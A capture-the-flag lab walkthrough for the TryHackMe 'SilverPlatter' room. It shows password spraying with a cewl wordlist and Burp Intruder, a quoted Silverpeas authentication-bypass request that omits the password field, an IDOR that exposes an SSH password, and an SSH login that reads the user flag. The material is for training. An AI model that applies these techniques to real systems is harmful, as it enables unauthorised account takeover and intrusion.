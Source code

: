# Password Spraying Attacks using BurpSuitePro

I'll be using BurpSuitePro in this instance with intruder 

First Generating a Custom Wordlist with a help of tool named cewl

```bash
ashu㉿kali ~/TryHackMe/SilverPlatter cewl http://silverplatter.thm > custom_passwords.txt

ashu㉿kali ~/TryHackMe/SilverPlatter ls
custom_passwords.txt  vhost-fuzzer.sh

ashu㉿kali ~/TryHackMe/SilverPlatter cat custom_passwords.txt
──────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: custom_passwords.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
   2   │ the
   3   │ Item
   4   │ and
   5   │ Hack
   6   │ Smarter
   7   │ Security
   8   │ this
   9   │ adipiscing
  10   │ Default
  11   │ for
  12   │ you
  13   │ integer
  14   │ aliquet
  15   │ Tyler
  16   │ Heading
  17   │ Level
  18   │ felis
  19   │ faucibus
  20   │ with
  21   │ our
  22   │ that
  23   │ This
  24   │ accumsan
  25   │ lorem
  26   │ Dolor
  27   │ pulvinar
  28   │ etiam
  29   │ Felis
  30   │ enim
  31   │ feugiat
  32   │ Ante
  33   │ turpis
  34   │ porttitor
  35   │ arcu
  36   │ skills
  37   │ Intro
  38   │ Work
  39   │ About
  40   │ Contact
  41   │ Elements
  42   │ digital
  43   │ Ramsbey
  44   │ basement
  45   │ where
  46   │ hacking
  47   │ try
  48   │ hard
  49   │ tempus
  50   │ ipsum

```

## Using Intruder Tab to spray the passwords on with Intercept On

- By Filtering the response length I think this is the password 

![[Pasted image 20250222194535.png]]

Let's Try Logging In 

![[Pasted image 20250222194756.png]]

Got Logged In 


# Exploiting a vulnerability of Authentication Bypass with a CVE 


## Exploit Title: Silverpeas CRM - Authentication Bypass
https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d

Silverpeas up to and including 6.3.4 is vulnerable to a trivial authentication bypass. When authenticating, if the sender omits the password form field, the application will sign you in as the user specified without any challenge.

E.g. the standard login request will look like this:

```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&Password=SilverAdmin&DomainId=0
```

This will fail login (unless they have forgotten to change the default password) and you will be redirected back to the login page with an error code.

But if you remove the password field like this:

```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&DomainId=0
```

Then the login attempt will (usually) succeed and redirect you to the main page, now logged in as a super admin.

The bug works with any valid user, but SilverAdmin is the default super admin.

## Gaining Access Through IDOR

When Logging in to silver peas i found a notification and when i open the notification it open up a link with a parameter ID=5 after changing it to 6 I found this message that contains ssh password

![[Pasted image 20250222233355.png]]


# Logging into SSH

Got successfully logged into user tim's shell with the password found above and now for escalating the privileges
```bash
ashu㉿kali ~/TryHackMe/SilverPlatter ssh tim@silverplatter.thm
tim@silverplatter.thm's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Feb 22 06:19:25 PM UTC 2025

  System load:  0.0126953125      Processes:                125
  Usage of /:   89.9% of 8.33GB   Users logged in:          0
  Memory usage: 53%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for ens5:    10.10.254.117

  => / is using 89.9% of 8.33GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

39 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Dec 13 16:33:12 2023 from 192.168.1.20
tim@silver-platter:~$ ls
user.txt
tim@silver-platter:~$ cat user.txt 
THM{c4ca4238a0b923820dcc509a6f75849b}
tim@silver-platter:~$ 


```

